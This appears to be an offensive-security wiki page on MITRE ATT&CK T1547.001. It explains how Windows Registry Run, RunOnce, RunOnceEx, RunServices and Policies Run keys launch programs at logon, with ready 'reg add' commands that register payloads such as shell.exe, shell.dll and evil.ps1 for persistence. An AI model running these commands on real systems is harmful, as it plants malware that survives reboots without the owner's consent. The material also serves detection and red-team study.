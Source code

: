 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Registry Run Keys / Startup
  Folder - Technique T1547.001
---
```


# Run Keys

## Theory&#x20;

We may achieve persistence by referencing a program with a Registry run key. Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. These programs will be executed under the context of the user and will have the account's associated permissions level.

## Practice

{% hint style="success" %}
Registry entries under `HKU/HKCU` will only apply to the user.\
Registry entries under `HKLM` will apply to everyone
{% endhint %}

{% hint style="info" %}
**Run/RunServices** keys will run every time a user logs in.

**RunOnce/RunServicesOnce** will clears the registry key as soon as it run.
{% endhint %}

{% tabs %}
{% tab title="Run/RunOnce/RunOnceEx" %}
You can force a user to execute a program on logon via the **Run** and **RunOnce** and **RunOnceEx** registry keys. You can use the following registry entries to specify applications to run at logon:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx`

The **RunOnceEx** key entries can reference programs directly or list them as a dependency. For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx.

{% hint style="info" %}
RunOnceEx only executes from HKEY\_LOCAL\_MACHINE (HKLM)

RunOnceEx clears the registry key on completion of the command.
{% endhint %}

```bash
#Run/RunOnce
## Add key for current user
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"
## Add key for computer (all users)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"

#RunOnceEx
#Add key for current user - Execute command / PE
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v PeMalware /t REG_SZ /d "C:\tmp\shell.exe"
#Add key for computer (all users) - Execute DLL
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v DLLMalware /t REG_SZ /d "C:\tmp\shell.dll"
```
{% endtab %}

{% tab title="RunServices/RunServicesOnce " %}
The following Registry keys can control automatic startup of services during boot:

* `HKU\<SID>\Software\Microsoft\Windows\CurrentVersion\RunServices`
* `HKU\<SID>\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`

```powershell
#Add key for current user - Execute command / PE
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pwned /t REG_SZ /d "C:\tmp\Pwned.exe"

#Add key for computer (all users) - Execute command / PE
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pwned /t REG_SZ /d "C:\tmp\Pwned.exe"
```
{% endtab %}

{% tab title="Policies" %}
We can use policy settings to specify startup programs with following registry keys

* HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

```powershell
#Add key for current user - Execute command / PE
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v Pwned /t REG_SZ /d "C:\tmp\Pwned.exe"

#Add key for computer (all users) - Execute command
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v Pwned /t REG_SZ /d "powershell.exe C:\tmp\evil.ps1"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://attack.mitre.org/techniques/T1547/001/" %}
